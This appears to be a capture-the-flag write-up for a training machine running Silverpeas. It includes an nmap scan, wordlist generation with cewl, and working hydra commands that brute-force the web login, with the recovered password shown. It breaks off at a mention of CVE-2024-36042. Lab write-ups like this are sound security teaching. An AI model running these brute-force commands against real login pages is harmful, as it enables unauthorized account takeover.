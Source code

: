 ### Description
Think you've got what it takes to outsmart the Hack Smarter Security team? They claim to be unbeatable, and now it's your chance to prove them wrong. Dive into their web server, find the hidden flags, and show the world your elite hacking skills. Good luck, and may the best hacker win!  

But beware, this won't be a walk in the digital park. Hack Smarter Security has fortified the server against common attacks and their password policy requires passwords that have not been breached (they check it against the rockyou.txt wordlist - that's how 'cool' they are). The hacking gauntlet has been thrown, and it's time to elevate your game. Remember, only the most ingenious will rise to the top. 

May your code be swift, your exploits flawless, and victory yours!

### Enumeration 
#### Nmap Scan
```bash
Nmap scan report for <IP>
Host is up (0.020s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c3:25:de:b4:1e:f0:9f:22:e5:f7:9b:36:27:96:93:66 (ECDSA)
|_  256 ff:22:57:2e:99:07:ee:ec:14:90:7d:ac:7c:b4:30:53 (ED25519)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  http-proxy
|_http-title: Error
| fingerprint-strings: 
|   FourOhFourRequest, GetRequest, HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Mon, 25 Aug 2025 22:23:28 GMT
|     <html><head><title>Error</title></head><body>404 - Not Found</body></html>
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SMBProgNeg, SSLSessionReq, Socks5, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Length: 0
|_    Connection: close
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.95%I=7%D=8/25%Time=68ACE261%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,C9,"HTTP/1\.1\x20404\x20Not\x20Found\r\nConnection:\x20close\r
SF:\nContent-Length:\x2074\r\nContent-Type:\x20text/html\r\nDate:\x20Mon,\
SF:x2025\x20Aug\x202025\x2022:23:28\x20GMT\r\n\r\n<html><head><title>Error
SF:</title></head><body>404\x20-\x20Not\x20Found</body></html>")%r(HTTPOpt
SF:ions,C9,"HTTP/1\.1\x20404\x20Not\x20Found\r\nConnection:\x20close\r\nCo
SF:ntent-Length:\x2074\r\nContent-Type:\x20text/html\r\nDate:\x20Mon,\x202
SF:5\x20Aug\x202025\x2022:23:28\x20GMT\r\n\r\n<html><head><title>Error</ti
SF:tle></head><body>404\x20-\x20Not\x20Found</body></html>")%r(RTSPRequest
SF:,42,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x200\r\nConn
SF:ection:\x20close\r\n\r\n")%r(FourOhFourRequest,C9,"HTTP/1\.1\x20404\x20
SF:Not\x20Found\r\nConnection:\x20close\r\nContent-Length:\x2074\r\nConten
SF:t-Type:\x20text/html\r\nDate:\x20Mon,\x2025\x20Aug\x202025\x2022:23:28\
SF:x20GMT\r\n\r\n<html><head><title>Error</title></head><body>404\x20-\x20
SF:Not\x20Found</body></html>")%r(Socks5,42,"HTTP/1\.1\x20400\x20Bad\x20Re
SF:quest\r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\n")%r(Gener
SF:icLines,42,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x200\
SF:r\nConnection:\x20close\r\n\r\n")%r(Help,42,"HTTP/1\.1\x20400\x20Bad\x2
SF:0Request\r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\n")%r(SS
SF:LSessionReq,42,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x
SF:200\r\nConnection:\x20close\r\n\r\n")%r(TerminalServerCookie,42,"HTTP/1
SF:\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x200\r\nConnection:\x20
SF:close\r\n\r\n")%r(TLSSessionReq,42,"HTTP/1\.1\x20400\x20Bad\x20Request\
SF:r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\n")%r(Kerberos,42
SF:,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x200\r\nConnect
SF:ion:\x20close\r\n\r\n")%r(SMBProgNeg,42,"HTTP/1\.1\x20400\x20Bad\x20Req
SF:uest\r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\n")%r(LPDStr
SF:ing,42,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x200\r\nC
SF:onnection:\x20close\r\n\r\n")%r(LDAPSearchReq,42,"HTTP/1\.1\x20400\x20B
SF:ad\x20Request\r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\n");
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   19.58 ms 10.14.0.1
2   19.71 ms <IP>

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Aug 25 18:24:45 2025 -- 1 IP address (1 host up) scanned in 104.07 seconds
```

Visit the website and under the `Contact` tab, there is some info about the username `scr1ptkiddy` and the how to contact the manager `Silverpeas`.
![[contact.png]]

I performed directory enumeration but It didn't give me anything. I didn't know what `silverpeas` was, so I searched for `silverpeas` and found a website where I saw `localhost:8080/silverpeas`. So, I tried that in the browser 
```
http://<IP>:8080/silverpeas
```

I received back a login page `http://<IP>:8080/silverpeas/defaultLogin.jsp`. 
![[login-page.png]]

In the description, it says that the `Hack Smarter Security Team` have tested their passwords against ***rockyou.txt*** and it could not be breached. So, we can try a different technique and create our own passwords rather then using the dictionary provided in kali.

#### Create a Dictionary of passwords using `Cewl`
```bash
cewl http://<IP> -w passwordlist.txt
```

#### Brute Force the Login Page with Hydra
**Failed attempts**
```bash
hydra -l scr1ptkiddy -P passwordlist.txt <IP> -s 8080 http-form-post '/silverpeas/defaultLogin.jsp:username=scr1ptkiddy&password=^PASS^:F=Login or password incorrect'
```

It didn't work due to some issues:
- Not `defaultLogin.jsp` but `AuthenticationServlet`. Found it under `Network` tab with `POST` method.
- Not `username=scr1ptkiddy&password=^PASS^` instead `Login=scr1ptkiddy&Password=^PASS^&DomainId=0`. Found it using `Burpsuite`.
![[burp.png]]

**Successful attempt**
```bash
hydra -l scr1ptkiddy -P passwordlist <IP> -s 8080 http-form-post '/silverpeas/AuthenticationServlet:Login=scr1ptkiddy&Password=^PASS^&DomainId=0:F=Login or password incorrect' -t 32
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-26 17:36:20
[DATA] max 32 tasks per 1 server, overall 32 tasks, 345 login tries (l:1/p:345), ~11 tries per task
[DATA] attacking http-post-form://<IP>:8080/silverpeas/AuthenticationServlet:Login=scr1ptkiddy&Password=^PASS^&DomainId=0:F=Login or password incorrect
[8080][http-post-form] host: <IP>   login: scr1ptkiddy   password: adipiscing
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-26 17:36:34
```

I logged in using the credentials and landed in `scr1ptkiddy` home page. I could not find anything much, so I googled for an exploit and found a website explaining the `Authentication Bypass` with the `CVE-2024-36042`. 